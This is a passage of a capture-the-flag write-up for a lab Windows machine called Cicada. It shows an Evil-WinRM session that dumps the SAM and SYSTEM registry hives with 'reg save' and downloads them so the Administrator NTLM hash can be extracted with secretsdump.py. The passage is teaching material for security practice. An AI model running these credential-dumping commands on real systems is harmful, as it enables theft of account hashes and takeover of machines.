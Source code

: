 ![2](../../../assets/images/Cicada/2.png)

<br />

There are several techniques to exploit this group; here we'll look at two different methods.

<br />

## Reg Save: Dumping SAM & SYSTEM

<br />

The first technique is straightforward to exploit.

We only need to make a copy of the `SAM` and `SYSTEM` files to run `secretsdump.py` and get the NTLM Administrator hash:

<br />

```bash
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SAM SAM
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SYSTEM SYSTEM
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download SAM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\SAM to SAM
                                           
Info: Download successful!
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> download SYSTEM
                                        
Info: Downloading C:\Users\emily.oscars.CICADA\Desktop\SYSTEM to SYSTEM
                                        
Info: Download successful!
```
